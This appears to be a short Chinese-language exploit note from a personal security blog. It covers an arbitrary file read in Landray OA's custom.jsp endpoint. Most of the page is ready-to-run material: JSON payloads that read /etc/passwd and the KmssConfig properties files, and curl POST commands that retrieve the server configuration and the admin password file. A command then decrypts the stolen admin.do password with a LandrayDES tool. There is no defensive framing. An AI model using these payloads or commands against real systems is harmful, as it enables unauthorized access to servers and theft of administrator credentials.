 ```yaml
---
title: Landray-OA 蓝凌OA custom.jsp页面任意文件读取
encrypt: false
enc_pwd: askding
categories:
  - Kali
  - Exploit
date: 2021-05-13 19:40:49
top:
tags:
layout:
---
```

编写进度
- [x] 

# 蓝凌OA custom.jsp页面任意文件读取

- URI: `/sys/ui/extend/varkind/custom.jsp`
- payload: 
```zsh
var={"body":{"file":"file:///etc/passwd"}}
var={"body":{"file":"/WEB-INF/KmssConfig/kmssconfig.properties"}}
var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
``` 

## POC
1. 查看kmssconfig配置文件
```zsh 
curl -X POST "http://ekpoa.example.com:8088/sys/ui/extend/varkind/custom.jsp" -d 'var={"body":{"file":"/WEB-INF/KmssConfig/kmssconfig.properties"}}'
```

![Landray-OA](https://raw.githubusercontent.com/askDing/PicGo/main/images/20210513194553landray-oa.png)

2. 查看`/admin.do`管理员后台密码
```zsh
curl -X POST "http://ekpoa.example.com:8088/sys/ui/extend/varkind/custom.jsp" -d 'var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
```

解密工具 [LandrayDES](https://github.com/zhutougg/LandrayDES)
```zsh 
java -jar LandrayDES-0.0.1-SNAPSHOT-jar-with-dependencies.jar Decrypt  admin.do S11E7bclfCnWEz/\JLVTdUw==
```

参考

[X凌OA任意文件读取](https://mp.weixin.qq.com/s?__biz=MzIyNjk0ODYxMA==&mid=2247485442&idx=1&sn=18175fcffeb5ccf31507a21f30145ddd&chksm=e869eb6fdf1e62793669c3e91b011034dfa7c11d0af173d9541be384e6606f64be0a93c1d5f5&xtrack=1&scene=90&subscene=93&sessionid=1620912773&clicktime=1620912781&enterid=1620912781&ascene=56&devicetype=android-30&version=28000339&nettype=WIFI&abtest_cookie=AAACAA%3D%3D&lang=en&exportkey=AUeLnswx%2BFALMw29vTEa4%2Bg%3D&pass_ticket=77Y82XyXpJKzg8bEukNk8K1Ac4jfOpASkJgWWfxkZ8QI4Er3daOMJ3T9fBFJHbz2&wx_header=1)
